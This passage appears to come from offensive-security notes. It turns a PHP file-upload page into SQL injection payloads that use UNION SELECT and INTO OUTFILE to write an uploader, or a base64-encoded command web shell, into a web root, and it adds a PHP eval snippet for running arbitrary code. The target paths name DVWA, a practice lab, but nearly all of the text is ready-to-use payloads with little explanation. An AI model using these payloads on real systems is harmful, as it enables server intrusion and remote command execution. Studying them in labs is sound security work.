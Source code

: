 Here's a one PHP liner.

```php
<?php if(isset($_POST['submit'])){$t='./';$f=$t.basename($_FILES['fileToUpload']['name']);if(move_uploaded_file($_FILES['fileToUpload']['tmp_name'],$f))echo"File uploaded successfully.";else echo"Sorry, there was an error uploading your file.";}?> <!DOCTYPE html><html lang="en"><head><meta charset="UTF-8"><meta name="viewport" content="width=device-width, initial-scale=1.0"><title>File Upload</title></head><body><h2>File Upload</h2><form action="<?=$_SERVER['PHP_SELF']?>" method="POST" enctype="multipart/form-data"><input type="file" name="fileToUpload" id="fileToUpload"><input type="submit" value="Upload" name="submit"></form></body></html>
```

SQL Query for reference.

```sql
SELECT '<?php if(isset($_POST[\'submit\'])){$t=\'./\';$f=$t.basename($_FILES[\'fileToUpload\'][\'name\']);if(move_uploaded_file($_FILES[\'fileToUpload\'][\'tmp_name\'],$f))echo"File uploaded successfully.";else echo"Sorry, there was an error uploading your file.";}?>\n<!DOCTYPE html><html lang=\"en\"><head><meta charset=\"UTF-8\"><meta name=\"viewport\" content=\"width=device-width, initial-scale=1.0\"><title>File Upload</title></head><body><h2>File Upload</h2><form action=\"<?=$_SERVER[\'PHP_SELF\']?>\" method=\"POST\" enctype=\"multipart/form-data\"><input type=\"file\" name=\"fileToUpload\" id=\"fileToUpload\"><input type=\"submit\" value=\"Upload\" name=\"submit\"></form></body></html>' INTO OUTFILE '/path/to/uploader.php'
```

Convert it to SQLi exploit with **UNION SELECT**.

```sql
' UNION SELECT '<?php if(isset($_POST[\'submit\'])){$t=\'./\';$f=$t.basename($_FILES[\'fileToUpload\'][\'name\']);if(move_uploaded_file($_FILES[\'fileToUpload\'][\'tmp_name\'],$f))echo"File uploaded successfully.";else echo"Sorry, there was an error uploading your file.";}?>\n<!DOCTYPE html><html lang=\"en\"><head><meta charset=\"UTF-8\"><meta name=\"viewport\" content=\"width=device-width, initial-scale=1.0\"><title>File Upload</title></head><body><h2>File Upload</h2><form action=\"<?=$_SERVER[\'PHP_SELF\']?>\" method=\"POST\" enctype=\"multipart/form-data\"><input type=\"file\" name=\"fileToUpload\" id=\"fileToUpload\"><input type=\"submit\" value=\"Upload\" name=\"submit\"></form></body></html>', NULL INTO OUTFILE '/var/www/html/dvwa/uploader.php'#
```

- **Base64 encoded**

```sql
' UNION SELECT FROM_BASE64("<base64_encoded>"), NULL INTO OUTFILE '/var/www/html/dvwa/file.php'#
```

```sql
$ echo "<?php \$cmd=\$_GET[\"cmd\"];system(\$cmd);?>" | base64
PD9waHAgJGNtZD0kX0dFVFsiY21kIl07c3lzdGVtKCRjbWQpOz8+Cg==

' UNION SELECT FROM_BASE64("PD9waHAgJGNtZD0kX0dFVFsiY21kIl07c3lzdGVtKCRjbWQpOz8+Cg=="), NULL INTO OUTFILE '/var/www/html/dvwa/shell.php'#
```

###### 2.2.4.1.3 - Evaluate PHP Code

```php
<?php eval($_GET[evaluate]); ?>
```
